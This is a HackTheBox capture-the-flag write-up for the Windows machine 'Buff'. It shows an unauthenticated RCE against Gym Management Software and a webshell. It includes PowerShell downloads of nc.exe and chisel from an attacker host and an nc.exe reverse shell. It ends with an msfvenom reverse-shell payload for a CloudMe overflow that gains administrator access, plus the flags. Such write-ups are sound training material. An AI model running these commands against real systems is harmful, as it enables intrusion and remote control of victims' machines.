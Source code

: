```yaml
---
title: "Buff"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Buff

![](assets/Pasted%20image%2020250604235743.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.198
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-05 00:06 CEST
Nmap scan report for 10.10.10.198
Host is up (0.041s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Microsoft Windows 10 1909 - 2004 (91%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   40.94 ms 10.10.14.1
2   41.27 ms 10.10.10.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.83 seconds
```

`Port` `8080` shows a site about fitness.

![](assets/Pasted%20image%2020250605001326.png)

The site is made with `Gym Management Software 1.0`.

![](assets/Pasted%20image%2020250605001640.png)

## Initial Access

Using `searchsploit`, get the unauthenticated RCE one and execute it.

![](assets/Pasted%20image%2020250605102916.png)

```shell
$ python2 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                 
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun
```

Get the flag:

```shell
C:\xampp\htdocs\gym\upload> type C:\users\shaun\desktop\user.txt
�PNG
▒
47643683f9c91176910ec622fc4b20f9
```

## Privilege Escalation

Transfer `nc.exe` to the host and get a reverse shell

```shell
C:\xampp\htdocs\gym\upload> powershell.exe -c iwr -uri http://10.10.14.14:8000/nc.exe -outfile C:\users\shau
�PNG
▒
```

```shell
C:\xampp\htdocs\gym\upload> C:\users\shaun\nc.exe 10.10.14.14 5555 -e cmd.exe
```

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.198] 49833
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```

There is a `CloudMe_1112.exe` in `shaun`'s downloads folder. We can see in the official documentation that the default port is `8888`.

```shell
PS C:\users\shaun\downloads> netstat -ano | findstr 8888
netstat -ano | findstr 8888
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       4996
```

Transfer `chisel` to expose the port.

```shell
$ ./chisel server --port 5555 --reverse                        
2025/06/05 23:07:25 server: Reverse tunnelling enabled
2025/06/05 23:07:25 server: Fingerprint PfHQvvl62LmfoeerrJeKwQTGw8wsiz5DkAonqhI5IYA=
2025/06/05 23:07:25 server: Listening on http://0.0.0.0:5555
2025/06/05 23:08:59 server: session#1: tun: proxy#R:8888=>localhost:8888: Listening
```

```shell
PS C:\users\shaun\downloads> iwr -uri http://10.10.14.14:8000/chisel.exe -outfile chisel.exe
iwr -uri http://10.10.14.14:8000/chisel.exe -outfile chisel.exe
PS C:\users\shaun\downloads> .\chisel.exe client 10.10.14.14:5555 R:8888:localhost:8888
.\chisel.exe client 10.10.14.14:5555 R:8888:localhost:8888
2025/06/05 22:09:00 client: Connecting to ws://10.10.14.14:5555
2025/06/05 22:09:00 client: Connected (Latency 40.8734ms)
```

Using `searchsploit`:

![](assets/Pasted%20image%2020250605231529.png)

Get the first one and edit it; we need to change the payload from executing the calculator to a reverse shell.

```shell
$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```

Set the listener and execute the script.

```shell
$ sudo rlwrap nc -lnvp 443                     
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.198] 49935
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
d9125a41ab7239a80a93d04b6999f906
```
